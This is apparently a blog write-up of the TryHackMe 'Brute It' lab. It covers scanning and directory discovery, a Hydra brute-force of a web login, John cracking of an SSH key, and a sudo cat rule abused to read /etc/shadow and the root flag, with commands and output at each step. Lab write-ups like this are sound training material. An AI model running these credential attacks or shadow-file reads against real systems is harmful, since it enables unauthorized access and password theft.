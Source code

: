 ```yaml
---
title: Try Hack Me - Brute It
date: 2020-11-30 01:17 +0300
categories: [Try Hack Me]
tags: [linux, brute force, hash cracking, privilege escalation]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- Brute-force
- Hash cracking
- Privilege escalation

# Nmap

First of all let's scan our machine and see what we have

<pre class="highlighter-rouge highlight">
nmap -sC -sV -O 10.10.238.144

Nmap scan report for 10.10.238.144
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/29%OT=22%CT=1%CU=35597%PV=Y%DS=2%DC=I%G=Y%TM=5FC404
OS:77%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.01 seconds
</pre>

So I will go web page and try to find something interesting.

# Gobuster

<pre>
gobuster dir -w /opt/directory-list-lowercase-2.3-medium.txt -u http://10.10.238.144

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.144
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
				 Starting gobuster
===============================================================
/admin (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/admin</code>

<img src="/assets/img/bruteit_img/admin.png">

# Hydra
Turn on Hydra to crack password!

<pre>
hydra -l admin -P /opt/rockyou.txt 10.10.238.144 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
[80][http-post-form] host: 10.10.238.144   login: admin   password: ******
</pre>

This link helped me with hydra usage <a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a>

We got the username and password. 
Sign in to website and we get'll the Web flag.

<img src="/assets/img/bruteit_img/admin_panel.png">

Also we can see RSA private flag. After googling i found that we need it for conneting to ssh. I copied it and named <code class="language-plaintext highlighter-rouge">id_rsa</code>. We must find the password to connect to ssh.

Let's brute it with John!

# John The Ripper

This link helped me with John and cracking password with RSA private key 
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.238.144</pre>

Now you can read User.txt

<img src="/assets/img/bruteit_img/user_flag.png">

# Privilage Escalation
Let's see what we can do with john account
<pre>sudo -l</pre>

John user can use <code class="language-plaintext highlighter-rouge">cat</code>

<pre>
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
</pre>
I went to <a href="https://gtfobins.github.io/gtfobins/cat/">gtfobins</a>

Hmmmm...I have no clue. And this guide - <a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a> shows that you can use <code class="language-plaintext highlighter-rouge">cat</code> to grab <code class="language-plaintext highlighter-rouge">/etc/shadow</code> and crack with John. You can do like author. 

I copied <code class="language-plaintext highlighter-rouge">etc/passwd</code> and cracked with John.

<pre>
LFILE=/etc/shadow
cat $LFILE
</pre>

<pre>
LFILE=/etc/passwd
cat $LFILE
</pre>

This article helped me with John and cracking password 
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>

After that I got the password and read the root flag
<img src="/assets/img/bruteit_img/rootflag.png">

We also could read the root flag without cracking password.
<pre>
LFILE=/root/root.txt
cat $LFILE
</pre>


# Userful for me references

<div><a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a></div>
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>
<div><a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a></div>
